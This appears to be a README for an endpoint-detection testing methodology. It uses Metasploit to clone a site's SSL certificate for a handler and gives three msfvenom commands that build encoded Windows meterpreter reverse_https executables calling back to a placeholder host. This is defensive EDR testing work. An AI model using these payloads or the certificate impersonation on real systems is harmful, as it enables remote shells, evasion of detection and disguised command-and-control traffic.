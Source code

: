 # Inital Setup for MSF Testing

Change the default metasploit SSL cert:

```
sudo msfconsole

use auxiliary/gather/impersonate_ssl 
set RHOST example.com

run
```

Example output:
![output](https://github.com/blumirabrian/endpoint-detection-methology/blob/main/msf/edr1.png "Command Output")

Take the .pem file and use for setting the SSL cert in the msf.rc file.

Change:
```
set HANDLERSSLCERT /root/attack.crt
```

To your new cert you collected:
```
set HANDLERSSLCERT /root/.msf4/loot/20210526091350_default_93.184.216.34_93.184.216.34_pe_809138.pem
```

## Payload Generation

Create 3 msfvenom payloads (**make sure to change the lhost IP to your Kali system IP address**)

Payload 1
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 1 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test.exe
```

Payload 2
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 20 lport=8443 lhost=1.2.3.4 -b "\x00" -f exe -o test2.exe
```

Payload 3
```
msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_https -e x86/shikata_ga_nai -i 30 lport=8443 lhost=1.2.3.4 -b "\x00\xff" -f exe -o test3.exe
```

The command should complete and output 3 testing executables. For the high interation payloads you may recieve an error as the paylod errors during the interation process, just rerun the command until you get a successful run.

![output payload 1](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr2.png "Payload 1")

Example of failed run for payload 3:

![output payload 3 error](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr3.png "Payload 3 Error")

Example of successful run for payload 3:

![output payload 3 success](https://raw.githubusercontent.com/blumirabrian/endpoint-detection-methology/main/msf/edr4.png "Payload 3 Success")
